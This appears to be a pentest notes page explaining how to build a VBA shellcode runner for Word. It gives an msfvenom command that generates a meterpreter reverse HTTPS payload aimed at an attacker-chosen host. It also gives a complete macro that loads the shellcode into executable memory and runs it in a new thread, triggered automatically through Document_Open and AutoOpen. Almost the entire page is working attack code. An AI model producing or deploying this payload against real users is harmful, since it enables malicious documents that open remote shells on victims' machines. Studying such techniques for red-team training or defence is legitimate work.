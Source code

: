 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Office_Shellcode_In_Memory
---
```



<span style="font-size: 35px; color:red"><b>VBA Shellcode Runner </b></span>
&nbsp;
Code to run shell in memory within a Word process

Create the revshell payload to copy in _buf_.
Remember that Word 2016 is a <span style="color:red">32-bit</span> process (encode the payload as x86)..
```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=443 EXITFUNC=thread -f vbapplication
```

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = <code_from_MSFVenom> ' It should be something like Array(232,130...)
    
			' VirtualAlloc(address, size, allocation type, protections/permissions)
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40) 'to allocate memory that is writable, readable and executable.
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
		        'RtlMoveMemory(buffer, address, length)
        res = RtlMoveMemory(addr + counter, data, 1) 'to move the shellcode in the portion of memory just created. 
    Next counter
		    'CreateThread(0, 0, start_address for code execution, 0, 0, 0)
    res = CreateThread(0, 0, addr, 0, 0, 0) 'to create the thread that runs the code
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
&nbsp;

---